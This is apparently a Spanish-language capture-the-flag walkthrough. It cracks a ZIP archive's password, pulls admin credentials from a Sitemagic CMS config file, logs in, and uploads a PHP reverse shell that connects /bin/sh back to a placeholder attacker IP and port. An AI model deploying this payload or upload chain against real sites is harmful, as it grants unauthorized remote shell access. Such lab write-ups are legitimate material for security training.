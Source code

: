Info:

```
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 16 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
porchman         (website.zip)     
1g 0:00:00:03 DONE (2024-07-06 11:39) 0.2849g/s 1306Kp/s 1306Kc/s 1306KC/s potweed21..pommagranite
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Veremos que la contraseña del archivo `.zip` es `porchman`, por lo que haremos lo siguiente...

```shell
unzip website.zip
```

Metemos esa contraseña y ahora si nos descomprimira todo, por lo que iremos a un archivo dentro de la carpeta que nos llamara mucho la atencion...

```shell
cat sitemagic/config.xml.php
```

Veremos lo siguiente interesante, unas credenciales que podremos usar mas adelante...

```
<!-- REQUIRED, throws custom exception if missing -->
     <entry key="Username" value="admin"/>
 <!-- REQUIRED, throws custom exception if missing -->
     <entry key="Password" value="jesse"/>
```

Vemos que la carpeta a la que entramos se llama `sitemagic` y que contiene una pagina web, a paret de las credenciales que ya encontramos, por lo que si nos vamos a la siguiente `URL` veremos lo siguiente...

```
URL = http://<IP>/sitemagic
```

Esto nos mostrara una pagina web, por lo que iremos al panel de login para logearnos con las cerdenciales que conseguimos...

Una vez logeados, nos iremos al siguiente apartado para poder crearnos una `Reverse Shell`...

```
Content/Files
```

Y ahi dentro veremos una opcion para poder subir un archivo, el cual sera una `Rreverse Shell` de la siguiente manera...

> shell.php

```php
<?php
$sock=fsockopen("<IP>",<PORT>);$proc=proc_open("/bin/sh", array(0=>$sock,   1=>$sock, 2=>$sock),$pipes);
?>
```
